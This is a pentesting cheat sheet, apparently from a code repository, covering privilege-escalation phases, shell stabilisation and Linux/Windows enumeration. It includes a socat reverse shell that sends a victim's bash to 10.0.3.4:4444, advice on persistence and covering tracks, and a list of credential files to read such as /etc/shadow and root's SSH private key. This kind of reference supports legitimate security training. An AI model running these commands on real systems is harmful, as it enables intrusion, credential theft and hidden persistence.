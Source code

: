 # Cheat Sheet
___________

    Recon - Scan for vulnarable targets, gather info on target.
    Collect - Enumeration, more enumeration and some more enumeration.
    Process - Sort through data, analyse and prioritisation.
    Search - Know what to search for and where to find the exploit code.
    	Determining the kernel of the machine (kernel exploitation such as Dirtyc0w)
    	Locating other services running or applications installed that may be abusable (SUID & out of date software)
    	Looking for automated scripts like backup scripts (exploiting crontabs)
    	Credentials (user accounts, application config files..)
    	Mis-configured file and directory permissions
    Adapt - Customize the exploit, so it fits. Not every exploit work for every system "out of the box".
    Try - Get ready for (lots of) trial and error.
    Stay - Get a permanent foothold
    Cleanup - Leave no trace behinde
___________

## Stabilize Shell
```
python -c 'import pty; pty.spawn("/bin/bash")'

export TERM=xterm

stty raw -echo; fg
```
## Get reverse shell

atk:
```
socat file:`tty`,raw,echo=0 tcp-listen:4444
```
victim:
```
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.3.4:4444
```
## Useful enumeration comands Linux

List all processes runing as root
```
ps -aux | grep root
```
List all executibles with SUID set
```
find / -perm -u=s -type f 2>/dev/null
```
List what can be run with higher privileges
```
sudo -l
```
## Useful enumeration comands Linux

```
net users
```

```
systeminfo | findstr /B /C: "OS Name"/C: "OS Version"
```

```
wmic service list
```

## Usefull common Linux commands

Make file executable
```
chmod +x filename
```
Double click in terminal
```
xdg-open [FILENAME]
```
What shell am I using
```
echo $0
```
Only show matches
```
2> /dev/null
```
Execute command/use file as another user
```
sudo -u "username" "path/to/command" "path/to/file"
```
## Python helper
Start a quick HTTP server
```
python3 -m http.server [PORT]
```
Spawn a shell and stabilize
```
python -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm
ctrl + z
stty raw -echo; fg
```
## Other Stuff

### Dirbuster

List of common file extentions
```
php, pl, sh, asp, html, json, py, cfm, aspx, rb, cgi
```
## Useful Places to look

Location	Description

/etc/issue
	contains a message or system identification to be printed before the login prompt.

/etc/profile
	

controls system-wide default variables, such as Export variables, File creation mask (umask), Terminal types, Mail messages to indicate when new mail has arrived

/proc/version
	specifies the version of the Linux kernel

/etc/passwd
	has all registered user that has access to a system

/etc/shadow
	contains information about the system's users' passwords

/root/.bash_history
	

contains the history commands for root user

/var/log/dmessage
	contains global system messages, including the messages that are logged during system startup

/var/mail/root
	

all emails for root user

/root/.ssh/id_rsa
	Private SSH keys for a root or any known valid user on the server

/var/log/apache2/access.log
	

the accessed requests for Apache  webserver

C:\boot.ini
	contains the boot options for computers with BIOS firmware
